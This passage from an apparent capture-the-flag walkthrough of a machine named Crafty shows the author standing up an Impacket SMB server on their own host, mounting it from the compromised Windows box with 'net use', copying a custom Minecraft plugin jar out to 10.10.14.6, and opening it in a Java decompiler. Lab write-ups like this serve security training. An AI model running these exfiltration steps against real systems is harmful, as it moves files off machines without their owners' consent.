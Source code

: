 That’s a good sign this is something custom to Crafty.

### playercounter-1.0-SNAPSHOT.jar

#### Exfil

To get a copy of this Jar file on my host, I’ll start an SMB server with
[Impacket’s](https://github.com/fortra/impacket/blob/master/examples/smbserver.py)
`smbserver.py`:

    
    
    oxdf@hacky$ smbserver.py share . -smb2support -username oxdf -password oxdf
    Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    

A username and password are required for most Windows hosts to connect. I’ll
mount the share on Crafty:

    
    
    PS C:\Users\svc_minecraft\server\plugins> net use \\10.10.14.6\share /u:oxdf oxdf
    The command completed successfully.
    

Now I can copy the binary to my machine:

    
    
    PS C:\Users\svc_minecraft\server\plugins> copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.6\share\
    

I’ll verify the hash matches:

    
    
    oxdf@hacky$ md5sum playercounter-1.0-SNAPSHOT.jar
    349f6584e18cd85fc9e014da154efe03  playercounter-1.0-SNAPSHOT.jar
    

#### Reverse Engineering

I’ll grab a copy of [JD-GIU](https://java-decompiler.github.io/) and open the
plugin with `java -jar jd-gui-1.6.6.jar playercounter-1.0-SNAPSHOT.jar`.

The project is pretty small:

![image-20240610212323951](../img/image-20240610212323951.png)
